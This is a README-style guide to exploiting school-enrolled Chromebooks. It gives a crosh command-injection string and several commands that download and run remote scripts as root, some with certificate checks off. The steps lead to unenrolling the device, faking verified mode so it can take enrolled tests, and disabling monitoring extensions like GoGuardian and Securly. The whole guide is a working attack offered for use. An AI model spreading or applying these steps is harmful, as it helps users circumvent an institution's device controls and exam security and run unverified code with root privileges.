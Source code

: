 # The ultimate exploit guide

For this set of exploits, you will need one (or two, if you want to use the unenrollment exploit easily) 8gb or larger USB drive(s), and a chromebook with a board that's either on chrome100 or cros.tech. There's no need to have your chromebook be compatible with sh1mmer, because this exploit uses only recovery images and traditional exploits.

If you're using one USB drive, then flash it with a copy of ChromeOS 81 for your chromebook's board. If you're using two drives, flash the first one with the same file. If this isn't your first time running this exploit, then you should already have the required recovery drives.

Plug your cros 81 drive into your chromebook and press `Esc+Refresh+Power`. Wait for the process to finish, then reboot and log in as normal, with your school account. Press `Ctrl+Alt+T`. If crosh opens, you can proceed to the next step. Otherwise, use LtBEEF or some other extension-removal exploit to disable whatever extension might be blocking crosh.

Inside of crosh, type in `set_cellular_ppp \';bash;exit;\'`. You should be dropped into a bash prompt. We now have to run a privelige escalation exploit, which is also hosted in this repo (https://github.com/rainestorme/resources/tree/main/80.sh). Run: `bash <(curl https://raw.githubusercontent.com/rainestorme/resources/main/80.sh)` and wait for it to finish.

You should be dropped into a *root* bash prompt (please, please, hold your applause). You now have two choices. You can:

- Unenroll your Chromebook, and, optionally, fakemurk it so that it appears to be verified

     or

- Leave your Chromebook in verified mode and run cedr

## Unenrollment, fakemurk, and murkmod

If you want to unenroll your Chromebook, just run: `vpd -i RW_VPD -s check_enrollment=0`. From there, press `Esc+Refresh+Power` and press `Ctrl+D`. Press enter, then wait for the chromebook to reboot. Press `Ctrl+D` if a screen shows up about verification being off, and wait for the chromebook to reboot in verified mode. All data should be cleared, and your chromebook will be unenrolled. You can setup your chromebook as normal, and sign in with a home account.

To fakemurk your Chromebook, you have to be unenrolled first. Update your Chromebook (it'll only update to v105) and press `Esc+Refresh+Power`. Press `Ctrl+D`, then enter. Wait the 5 minutes for your Chromebook to enter developer mode, then proceed with typical setup. When you get logged in, press `Ctrl+Alt+T` and type `shell`.

Before you do anything else, however, you need to set up some failsafes. Fakemurk in general is pretty tempramental, and if you mess something up you could easily destroy your installation of ChromeOS. Grab the USB drive you used earlier, or grab the second USB drive if you're using two drives. Install the Chromebook Recovery Tool from the chrome webstore and flash the drive with a v105 image, Just In Case You Fuck It Up™.

We're also going to install MrChromeBox's RW_LEGACY firmaware. Run:

```sh
cd; curl -LOk mrchromebox.tech/firmware-util.sh && sudo bash firmware-util.sh
```

And then press `1` and then enter. Wait for it to finish and proceed with the next step, running:

```sh
sudo su
bash <(curl -SLk https://github.com/MercuryWorkshop/fakemurk/releases/latest/download/fakemurk.sh)
```

If the last command errors, press `Esc+Refresh+Power` and recover your chromebook with the v105 drive to try again. Keep trying until it works.

Follow the instructions (be sure to respond "Y" for emergency backups, they're useful in a pinch) and wait for your Chromebook to reboot. Once it reboots, press `Ctrl+D` to continue the boot process. Wait for your Chromebook to enroll. If everything works correctly (as it rarely does) then you should be enrolled as normal, but will have the fakemurk components installed on your device. If enrollment takes a while and then complains about a missing certificate, don't panic! This is normal. Just press `Refresh+Power` and wait for the warning to pop up. Instead of pressing `Ctrl+D`, press space and enter to **disable developer mode**. **Immediately after pressing these keys, press `Refresh+Power`**. This will result in a "ChromeOS is missing or damaged" screen. Once again, this is supposed to happen. Press `Esc+Refresh+Power` and `Ctrl+D` again, **re-enabling developer mode**. There's no five-minute wait this time around, because the rootfs is already unverified and doesn't need to be changed. When you get back to the warning, press `Ctrl+D` to boot. Try to enroll now, and after a short wait, it should work. 

You should be able to use your Chromebook as an enrolled device, take enrolled tests, and do a ton of other fun things. Sometime in the future, I plan to release a tool allowing the opening of extra browser tabs during kiosk tests (because I know you skids would love that), but that's irrellevant.

Open up crosh (`Ctrl+Alt+T`). You might notice that it's been replaced by "mush", the fakemurk replacement for crosh. You can do a lot from here, but a few key options stand out. Obviously, you want to disable certain extensions, such as GoGuardian, Gopher Buddy and Securly. I don't personally reccomend using "Soft Disable Extensions", as it uses a lot of CPU. It's much easier to hard disable extensions and re-enable them later.

One of my favorite capabilities of fakemurk is to run an entire linux desktop environment side-by-side ChromeOS with Crouton. Select the option and wait for it to download the chroot environment to the device. Once you set a password and install the desktop, you can drop into a root bash shell and type `startxfce4` to start the crouton desktop. While you're running the desktop, you can press `Ctrl+Shift+Forward` and `Ctrl+Shift+Back` to get back and forth between the desktop environments.

Policies are also modified, courtesy of Pollen. You can do a lot of things that are normally restricted, such as accessing the webstore and downloading extensions, and installing unsigned apks.

You also have the option of installing murkmod, a project that allows you to install plugins for mush, fakemurk's replacement for crosh. To do so, open a root shell and run the following:

```sh
bash <(curl -SLk https://raw.githubusercontent.com/rainestorme/murkmod/main/murkmod.sh)
```

## Cedr

Cedr is my own little pet project, allowing you to run Crouton on an enrolled Chromebook. The issue with Cedr is that it requires an external drive to store the chroot on. I reccomend using a MicroSD card for chroot storage, but a USB drive can also be used.

Insert the storage device (USB drive/MicroSD card) and find its block device. Run `fdisk -l` and try to identify the device you plugged in.

Cedr allows you to choose any desktop supported by Crouton in this step, but for the sake of simplicity I'll go with xfce4 for this tutorial. Run the following commands, replacing `/dev/sdX` with the block device representing your storage device:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-bootstrap.sh | bash -s /dev/sdX xfce
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

The drive should be unmounted automatically, and you can remove it.

To activate the desktop environment, you can plug in the device and identify its block device again (as above), or, if you never unplugged it from the last step, use the same one. Run:

```sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX
```

You can freely swap back and forth between ChromeOS and Cedr at will. Once you're finished, log out of your session and run:

```sh
bash <(curl http://raw.githubusercontent.com/rainestorme/cedr/main/cedr-umount.sh)
```

